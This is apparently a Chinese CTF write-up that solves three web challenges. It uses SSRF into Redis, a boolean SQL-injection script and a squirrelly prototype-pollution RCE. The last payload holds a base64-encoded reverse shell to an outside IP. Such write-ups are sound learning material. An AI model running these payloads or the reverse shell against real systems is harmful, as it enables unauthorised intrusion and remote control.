



# 前言

太菜了，根本不会，笑死。6道Web，有三道是XSS，我一点XSS不会，直接哭了。


# Raas

一个输入框，是`post`传的`url`，可以SSRF，根据`dockerfile`里的内容可以知道文件在`/code/app.py`，下载下来：

```
url=file:///code/app.py
```


```python

from flask import Flask, request,render_template,request,make_response
import redis
import time
import os
from utils.random import Upper_Lower_string
from main import Requests_On_Steroids
app = Flask(__name__)

# Make a connection of the queue and redis
r = redis.Redis(host='redis', port=6379)
#r.mset({"Croatia": "Zagreb", "Bahamas": "Nassau"})
#print(r.get("Bahamas"))
@app.route("/",methods=['GET','POST'])
def index():
    if request.method == 'POST':
        url = str(request.form.get('url'))
        resp = Requests_On_Steroids(url)
        return resp
    else:
        resp = make_response(render_template('index.html'))
        if not request.cookies.get('userID'):
            user=Upper_Lower_string(32)
            r.mset({str(user+"_isAdmin"):"false"})
            resp.set_cookie('userID', user)
        else:
            user=request.cookies.get('userID')
            flag=r.get(str(user+"_isAdmin"))
            if flag == b"yes":
                resp.set_cookie('flag',str(os.environ['FLAG']))
            else:
                resp.set_cookie('flag', "NAAAN")
        return resp

if __name__ == "__main__":
    app.run('0.0.0.0')
```

需要一个值是`yes`的键，才能将环境变量中的`flag`给弄出来。想了一下既然可以SSRF，那就可以实现SSRF的未授权，打一下就可以了：

```
url=dict://127.0.0.1:6379/set:a_isAdmin:yes
```

拿到flag：


笑死了，终于不用爆0了。


# Vuln Drive

随便登录，后台有文件上传和文件下载，下载那里是传的?f，试试读文件`?f=/etc/passwd`成功了，再读`/app/app.py`试试，也读到了源码：

```python
import os
import requests
import socket
import random
from urllib.parse import unquote,urlparse
from flask import Flask, render_template, request,url_for,redirect,send_file,session
from werkzeug.utils import secure_filename
from form import Login
import uuid
from werkzeug.exceptions import RequestEntityTooLarge

app = Flask(__name__)

upload_folder=os.getenv('UPLOAD_FOLDER')
app.config['UPLOAD_FOLDER']=upload_folder
app.config['SECRET_KEY']=os.getenv('SECRET_KEY')
app.secret_key = os.getenv('KEY_SECRET')

if not os.path.isdir(upload_folder):
    os.mkdir(upload_folder)


def auth():
    if session.get('user') is None:
        return True
    elif not os.path.isdir(os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid']))):
        return True
    else:
        return False


def url_validate(url):
    blacklist = ["::1", "::"]
    for i in blacklist:
        if(i in url):
            return "NO hacking this time ({- _ -})"
    y = urlparse(url)
    hostname = y.hostname
    try:
        ip = socket.gethostbyname(hostname)
    except:
        ip = ""
    print(url, hostname,ip)
    ips = ip.split('.')
    if ips[0] in ['127', '0']:
        return "NO hacking this time ({- _ -})"
    else:
        try:
            url = unquote(url)
            r = requests.get(url,allow_redirects = False)
            return r.text
        except:
            print(url, hostname)
            return "cannot get you url :)"


@app.route('/login',methods=['GET','POST'])
def login():
    form=Login()
    if not session.get('user') is None:
        return redirect('/logout')
    if request.method == 'POST':
        if form.username.data != "" and form.password.data != "":
            username=form.username.data
            uid = uuid.uuid4()
            session['user'] = username
            session['uid'] = uid
            os.mkdir(os.path.join(app.config['UPLOAD_FOLDER'],str(uid)))
            print(f"Created a folder {str(uid)} for user {username}",flush=True)
            return redirect(url_for('home'))
        else:
            err='enter a username and password to login'
            return render_template('login.html',title="login",form=form,err=err)

    return render_template('login.html',title="login",form=form)


@app.route('/logout',methods=['GET'])
def logout():
    if(session.get('user') is None):
        print("Cookies Deleted",flush=True)
    else:
        if os.path.isdir(os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid']))):
            os.system(f"rm -rf {os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid']))}")
        session.pop('user',None)
        session.pop('uid',None)
    return redirect(url_for('login'))


@app.route('/uploader', methods = ['GET', 'POST'])
def upload_file():
    if auth():
        return redirect('/logout')
    if request.method == 'POST':
        try:
            f = request.files['file']
            filename=secure_filename(f.filename)
            print("Trying",flush=True)
            f.save(os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid']), filename))
            return redirect(url_for('home'))
        except:
            print("Excepting",flush=True)
            return render_template("index.html")


@app.route('/return-files')
def return_files_tut():
    if auth():
        return redirect('/logout')
    filename=request.args.get("f")
    if(filename==None):
        return "No filenames provided"
    print(filename)
    if '..' in filename:
        return "No hack"
    file_path = os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid']),filename)
    if(not os.path.isfile(file_path)):
        return "No such file exists"
    return send_file(file_path, as_attachment=True, attachment_filename=filename)

@app.route("/dev_test",methods =["GET", "POST"])
def dev_test():
    if auth():
        return redirect('/logout')
    if request.method=="POST" and request.form.get("url")!="":
        url=request.form.get("url")
        return url_validate(url)
    return render_template("dev.html")

@app.route('/')
def home():
    if auth():
        return redirect('/logout')
    files=os.listdir(os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid'])))
    if not files:
        return render_template('index.html',username=session["user"],error="You got nothing over here.")

    y=[]
    for x in files:
        b="".join([ random.choice("0123456789abcdef") for i in range(6)] )
        y.append([x,b])
    return render_template('index.html',files=y,username=session["user"])

@app.route('/source')
def source():
    return render_template('source.html',file=open(__file__).read())

if __name__ == "__main__":
    app.run(host='0.0.0.0',debug=False)
```

原来后台的f12里给了去访问`/source`。

发现有个SSRF。

通过读/etc/hosts，发现了`192.168.112.2`：



再通过ssrf访问：

```
/dev_test

url=http://192.168.112.2/
```

```php
<?php
include('./conf.php');
$inp=$_GET['part1'];
$real_inp=$_GET['part2'];
if(preg_match('/[a-zA-Z]|\\\|\'|\"/i', $inp)) exit("Correct <!-- Not really -->");
if(preg_match('/\(|\)|\*|\\\|\/|\'|\;|\"|\-|\#/i', $real_inp)) exit("Are you me");
$inp=urldecode($inp);
//$query1=select name,path from adminfo;
$query2="SELECT * FROM accounts where id=1 and password='".$inp."'";
$query3="SELECT ".$real_inp.",name FROM accounts where name='tester'";
$check=mysqli_query($con,$query2);
if(!$_GET['part1'] && !$_GET['part2'])
{
    highlight_file(__file__);
    die();
}
if($check || !(strlen($_GET['part2'])<124))
{
    echo $query2."<br>";
    echo "Not this way<br>";
}
else
{
    $result=mysqli_query($con,$query3);
    $row=mysqli_fetch_assoc($result);
    if($row['name']==="tester")
        echo "Success";
    else
        echo "Not";
    //$err=mysqli_error($con);
    //echo $err;
}
?>

```

然后我就不会了，我太菜了。学了一下atao师傅的wp。

用到的SQL语句是这个：

```php
$query3="SELECT ".$real_inp.",name FROM accounts where name='tester'";
```


通过这个来布尔注入：

```php
    $result=mysqli_query($con,$query3);
    $row=mysqli_fetch_assoc($result);
    if($row['name']==="tester")
        echo "Success";
    else
        echo "Not";
```

一个关键的点就是这个：

```php
//$query1=select name,path from adminfo;
```

我不知道这个是干什么的，原来`flag`文件的文件名就在`path`里面。布尔注入的原理是利用了`union`：

```sql
 select 1,name from adminfo where path like xxx
 union
 select 1,name FROM accounts where name='tester'
```

如果第一个select成功查出了东西，这样的话`name=tester`的就在第二条了，这样就会返回`Not`。如果第一个select没查出东西，这样的话第二个select在第一条，得到的就是`Success`了。

写个python脚本跑一下：

```python
import requests
def strtohex(s):
    ss = "0x"
    for i in s:
        ss +=  str(hex(ord(i))).replace("0x",'')
    return ss
url="http://web.challenge.bi0s.in:6006/dev_test"

headers={
    "Cookie": "session=.eJwNy0EKw0AIQNGrFNdd6GTiaC5TjDpQCi0kzSrk7hn-9v0TfN_66__75BcWaG31EC2WSjNj4lR8CnTKJMdZTENLt4QnHO-A5YTHMTZrzh1RDLlWVlGuvZYQj9FKCdfwe26DElw3ynchSA.YRoLAA.BmUmr1DObVOpkv5Dkl_1iST1CkM"
}

"/a1382519e95ed25e5cdcf3"
path ="%e5cdcf3"
for i in range(100):
    for j in "abcdefghijklmnopqrstuvwxyz/0123456789.":
        payload="1,name from adminfo where name=0x61646d696e and path like {} union select 1".format(strtohex(path+j+"%"))
        data={
            "url":"http://192.168.96.2/?part1=%252527%26part2={}".format(payload)
        }
        r=requests.post(url=url,data=data,headers=headers)
        #print(r.text)
        #print(payload)
        if "Not this way" in r.text:
            print("long!")
        if "Not" in r.text:
            path+=j
            print(path)
            break
        if "Include the above in your HEAD tag" in r.text:
            print("cookie!!!!")


```

long了就前面换`%`，也懒得改良了。。。跑出来flag路径在用`return-files`读就可以了。


# Json Analyser

给了js源码和waf源码，想操作js需要得到一个码，通过waf获得：

```python
from flask import Flask, request
from flask_cors import CORS
import ujson
import json
import re
import os

os.environ['subscription_code'] = '[REDACTED]'
app=Flask(__name__)
cors = CORS(app)
CORS(app)
cors = CORS(app, resources={
    r"/verify_roles": {
       "origins": "*"
    }
})

@app.route('/verify_roles',methods=['GET','POST'])
def verify_roles():
    no_hecking=None
    role=request.args.get('role')
    if "superuser" in role:
        role=role.replace("superuser",'')
    if " " in role:
        return "n0 H3ck1ng"
    if len(role)>30:
        return "invalid role"
    data='"name":"user","role":"{0}"'.format(role)
    no_hecking=re.search(r'"role":"(.*?)"',data).group(1)
    if(no_hecking)==None:
        return "bad data :("
    if no_hecking == "superuser":
        return "n0 H3ck1ng"
    data='{'+data+'}'
    try:
        user_data=ujson.loads(data)
    except:
        return "bad format" 
    role=user_data['role']
    user=user_data['name']
    if (user == "admin" and role == "superuser"):
        return os.getenv('subscription_code')
    else:
        return "no subscription for you"

if __name__=='__main__':
    app.run(host='0.0.0.0',port=5555)

```

需要`name`是`admin`而且`role`是`superuser`，同时有`superuser`，正则，还有长度的waf。考虑到是json，可以利用unicode绕过：

```
?role=superuse\u0072","name":"admin
```




接下来就是代码审计了，为了方便，直接在本地弄了题目环境：

```javascript
const express = require('express');
const fileUpload = require('express-fileupload');
const fs = require("fs");
const sqrl = require('squirrelly');
const app = express();
port = 8088


app.use(express.static('static'));
app.set('view engine', 'squirrelly');
app.set('views', __dirname + '/views')
app.use(fileUpload());

app.get('/waf', function (req, res) {
    res.sendFile(__dirname+'/static/waf.html');
});

app.get('/restart',function(req,res){
    var content='';
    content=fs.readFileSync('package.json','utf-8')
    fs.writeFileSync('package1.json', content)
})

app.get('/', function (req, res) {
    res.sendFile(__dirname+'/static/index.html');
});

app.post('/upload', function(req, res) {
    let uploadFile;
    let uploadPath;
    if(req.body.pin !== "[REDACTED]"){
        return res.send('bad pin')
    }
    if (!req.files || Object.keys(req.files).length === 0) {
      return res.status(400).send('No files were uploaded.');
    }
    uploadFile = req.files.uploadFile;
    uploadPath = __dirname + '/package.json' ;
    uploadFile.mv(uploadPath, function(err) {
        if (err)
            return res.status(500).send(err);
        try{
        	var config = require('config-handler')();
        }
        catch(e){
            const src = "package1.json";
            const dest = "package.json";
            fs.copyFile(src, dest, (error) => {
                if (error) {
                    console.error(error);
                    return;
                }
                console.log("Copied Successfully!");
            });
        	return res.sendFile(__dirname+'/static/error.html')
        }
        var output='\n';
        if(config['name']){
            output=output+'Package name is:'+config['name']+'\n\n';
        }
        if(config['version']){
            output=output+ "version is :"+ config['version']+'\n\n'
        }
        if(config['author']){
            output=output+"Author of package:"+config['author']+'\n\n'
        }
        if(config['license']){
            var link=''
            if(config['license']==='ISC'){
                link='https://opensource.org/licenses/ISC'+'\n\n'
            }
            if(config['license']==='MIT'){
                link='https://www.opensource.org/licenses/mit-license.php'+'\n\n'
            }
            if(config['license']==='Apache-2.0'){
                link='https://opensource.org/licenses/apache2.0.php'+'\n\n'
            }
            if(link==''){
                var link='https://opensource.org/licenses/'+'\n\n'
            }
            output=output+'license :'+config['license']+'\n\n'+'find more details here :'+link;
        }
        if(config['dependencies']){
            output=output+"following dependencies are thier corresponding versions are used:" +'\n\n'+'     '+JSON.stringify(config['dependencies'])+'\n'
        }

        const src = "package1.json";
        const dest = "package.json";
        fs.copyFile(src, dest, (error) => {
            if (error) {
                console.error(error);
                return;
            }
        });
        res.render('index.squirrelly', {'output':output})
    });
});


var server= app.listen(port, () => {
    console.log(`Example app listening at http://localhost:${port}`)
});
server.setTimeout(10000);

```

发现就是上传一个json文件，然后会解析。比如这样：


看下package.json，发现`"squirrelly": "^8.0.8"`，正好有个CVE-2021-32819，模板引擎的RCE。


https://snyk.io/vuln/SNYK-JS-SQUIRRELLY-1293209

https://www.freebuf.com/vuls/276112.html

https://xz.aliyun.com/t/9922


一开始还有点迷，但是仔细想了一下，既然这个：

```javascript
var config = require('config-handler')();
```

可以解析json，是不是可以原型链污染呢？尝试了一下，确实可以！

在本地写了个弹计算器的payload：


既然可以rce，那就直接打了：

```javascript
{
  "__proto__":{"defaultFilter":"e')); let require = global.require || global.process.mainModule.constructor._load; require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTguMzEuMTY4LjE5OC8zOTg3NiAgMD4mMQ==|base64 -d|bash'); //"}
}
```



这种不需要自己挖rce的题目还是很友好的。


